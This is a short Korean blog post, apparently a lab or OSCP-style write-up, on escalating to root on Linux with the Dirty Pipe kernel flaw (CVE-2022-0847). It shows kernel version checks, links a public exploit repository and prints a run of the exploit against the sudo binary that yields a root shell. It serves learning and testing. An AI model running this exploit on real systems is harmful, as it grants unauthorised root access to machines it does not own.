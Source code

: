 ```yaml
---
layout: post
title: CVE-2022-0847 Dirtypipe 취약점
subtitle: 리눅스 커널 취약점을 이용한 권한상승
category: knowledge
thumbnail-img: /assets/img/knowledge/dirtypipe.png
tags: [linux, dirtypipe, kernel, CVE-2022-0847]
author: Hong
---
```


# 커널 버전 확인
아래의 명령어로 리눅스 커널의 버전을 확인한다.
```
cat /etc/issue
Ubuntu 20.04.5 LTS \n \l

uname -r
5.9.0-050900-generic

uname -a
Linux oscp 5.9.0-050900-generic #202010112230 SMP Sun Oct 11 22:34:01 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```
항상 보던것과는 다른 듯한 버전..

취약점을 검색해보면 아래와 같이 dirtypipe 취약점이라는 것을 알게 된다.

[CVE-2022-0847 dirtypipe](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits)

# 취약점 컴파일 후 실행
위의 소스코드는 컴파일을 할 필요가 있다.

이번엔 타겟 머신에 gcc와 git이 있는 것을 활용해서 직접 git clone한 후 컴파일 했다.

```
/tmp/CVE-2022-0847-DirtyPipe-Exploits$ ./exploit-2 /usr/bin/sudo
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# whoami
root
```
페이로드로 sudo를 실행하는 것만으로 root권한을 획득했다!

커널 버전을 항상 눈여겨 볼 것.